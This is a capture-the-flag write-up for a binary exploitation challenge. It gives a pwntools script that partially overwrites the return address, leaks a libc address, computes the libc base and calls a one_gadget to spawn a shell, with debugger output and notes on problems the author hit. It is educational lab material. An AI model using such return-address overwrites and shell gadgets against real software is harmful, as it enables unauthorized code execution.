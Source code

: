 # Solution

```
# pwntools template...
# glibc: libc6_2.27-3ubuntu1_amd64


#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = remote("nc.eonew.cn", 10004)

exploit = fit({136: b"\x6f"})

io.sendline(exploit)

resp = io.recvline()
resp = resp.strip()[136:]
libc_leak = u64(resp.ljust(8, b'\x00'))
log.success("libc leak: {}".format(hex(libc_leak)))
libc_start_main = libc_leak - 0xbf
log.success("libc_start_main @ {}".format(hex(libc_start_main)))
libc.address = libc_start_main - 0x021ab0
log.success("libc base: {}".format(hex(libc.address)))

rc = ROP([exe,libc])
rc.raw(p64(libc.address + 0x4f322))

exploit2 = fit({136: rc.chain()})

io.sendline(exploit2)

io.interactive()
```

# Process

1. Partially overwrite the return address during the STDIN phase. This changes the least significant byte to be 0x6f. This causes RIP to point to an earlier part of the `__libc_start_main` function- which allows you to get another input (restarting the STDIN phase).

```
00:0000│ rbp rsp  0x7ffdfaef2890 ◂— 0x0
01:0008│          0x7ffdfaef2898 —▸ 0x7f03826a10b3 (__libc_start_main+243) ◂— mov    edi, eax
```

Turns into (at the `ret` instruction of `main()`):

```
00:0000│ rsp  0x7ffdfaef2898 —▸ 0x7f03826a106f (__libc_start_main+175) ◂— mov    rax, qword ptr fs:[0x300]
```

2. This gets you the leak for the middle of  `__libc_start_main` which is `0xbf` in the middle of the function. `__libc_start_main` is `0x21ab0` from the base of `glibc` here too. You now have a glibc base address.

```
[+] libc leak: 0x7f03826a106f
[+] libc_start_main @ 0x7f03826a0fc0
[+] libc base: 0x7f038267a000
```

3. There is a one_gadget in `libc.address + 0x4f322` that can be used, where the requirements are already met:

```
0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL
```

4. You should have a shell!

# Issues

* I had a lot of trouble dealing with using a custom glibc. I need to work on this because it's really hard to make it all work especially with special linkers. I couldn't get the exploit to work locally- it segfaulted. However, in `gdb`, I saw that `/bin/dash` was forked so I assume it worked.

* `scanf()` will stop reading at a whitespace or EOL or null byte. Therefore, you can't really write a multiple 64-bit address with leading `0x00` bytes. You can't make a whole ROP chain because of this. I tried to run `gets()` when I got control of RIP but that segfaulted.

